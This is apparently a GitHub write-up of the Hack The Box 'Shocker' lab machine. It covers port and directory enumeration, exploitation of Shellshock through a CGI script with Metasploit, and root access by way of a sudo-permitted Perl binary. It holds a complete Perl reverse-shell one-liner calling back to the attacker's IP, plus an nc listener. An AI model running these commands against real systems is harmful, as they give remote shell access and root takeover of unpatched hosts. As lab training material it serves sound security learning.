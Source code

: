 # htb-shocker
This is my [Hack the box](https://www.hackthebox.eu/)'s Shocker machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.56

Difficulty: Easy

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.56`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/shoker# nmap -sV -sC -oN shocker.nmap 10.10.10.56
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 14:54 EDT
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```
The page itself just has a picture that doesn't really say much. Inspecting the page using dev tools doesn't give any extra information either.

Enumerate directories of the webpage using [gobuster](https://github.com/OJ/gobuster):
```
root@kali:/usr/share/wordlists# gobuster dir --url 10.10.10.56 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --timeout 20s
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        20s
===============================================================
2020/05/23 15:18:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/23 15:19:39 Finished
===============================================================
```

Duckduckgoing a bit I noticed that the machine's name refers to the Shell Shock vulnerability (CVE-2014-6271), which is related to the `/cgi-bin` directory.

Search on Metasploit:
```
msf > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Description
   ----                                               ---------------  ----       -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
   exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

`multi/http/apache_mod_cgi_bash_env_exec` is the one we were looking for. But this one needs the URI of some script that may be under `/cgi-bin`. 


After several attempts with [wfuzz](https://github.com/xmendez/wfuzz), this one is good for finding `user.sh` was there:

```
root@kali:~# wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  http://10.10.10.56/cgi-bin/FUZZ.sh
```

Now we got the script it's possible to exploit the vulnerability. These are the exploit options already set:
```
   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CMD_MAX_LENGTH  2048                                yes       CMD max line length
   CVE             CVE-2014-6271                       yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent                          yes       HTTP header to use
   METHOD          GET                                 yes       HTTP method to use
   Proxies                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST           10.10.10.56                         yes       The target address
   RPATH           /bin                                yes       Target PATH for binaries used by the CmdStager
   RPORT           80                                  yes       The target port (TCP)
   SRVHOST         0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080                                yes       The local port to listen on.
   SSL             false                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       http://10.10.10.56/cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                                   yes       HTTP read response timeout (seconds)
   URIPATH                                             no        The URI to use for this exploit (default is random)
   VHOST                                               no        HTTP server virtual host
```

And it's possible to get a shell by exploiting it:
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.56:57908) at 2020-05-24 07:35:52 -0400
```

This is enough to get the user flag:
```
whoami
shelly
```

From here it's very straightforward. Check sudoers: `sudo -l`
```
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Good news, `shelly` can run perl as root, so a Perl reverse shell will do:

Attacker:
```
nc -lvp 4444
```

Victim:
```
perl -e 'use Socket;$i="10.10.14.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And that's it:
```
# whoami
root
```
